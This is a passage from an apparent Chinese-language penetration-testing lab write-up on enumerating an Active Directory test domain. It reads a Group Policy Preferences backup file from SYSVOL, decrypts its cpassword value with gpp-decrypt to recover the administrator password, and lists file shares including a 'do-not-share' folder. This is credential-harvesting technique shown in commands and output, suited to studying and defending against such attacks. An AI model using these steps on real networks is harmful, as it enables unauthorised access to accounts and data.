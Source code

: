 ```
d-----         9/21/2022   1:13 AM                oldpolicy
d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}
```
看一下 oldpolicy
```
PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
```
> `cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"` 加密密碼\
>> 這種加密密碼通常來自於 GPP（[Group Policy Preferences](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11))），有機會被解密

>[!Tip]
>在 Windows 以前的版本中，系統管理員常用 GPP 來修改本機管理員密碼，但 GPP 密碼是使用已知金鑰加密的（AES-256）。

#### 3. 解密 GPP Password
使用 [gpp-decrypt](https://www.kali.org/tools/gpp-decrypt/) 解密
```
┌──(chw㉿CHW)-[~]
└─$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```
> AD 內部內建管理員的密碼

#### - 檢查其他共享資料夾
##### (1) docshare 共享資料夾
```
PS C:\Tools> ls \\FILES04\docshare\


    Directory: \\FILES04\docshare


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   2:02 AM                docs


PS C:\Tools> ls \\FILES04\docshare\docs\


    Directory: \\FILES04\docshare\docs


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   2:01 AM                do-not-share
-a----         9/21/2022   2:03 AM            242 environment.txt

PS C:\Tools> ls \\FILES04\docshare\docs\do-not-share\
```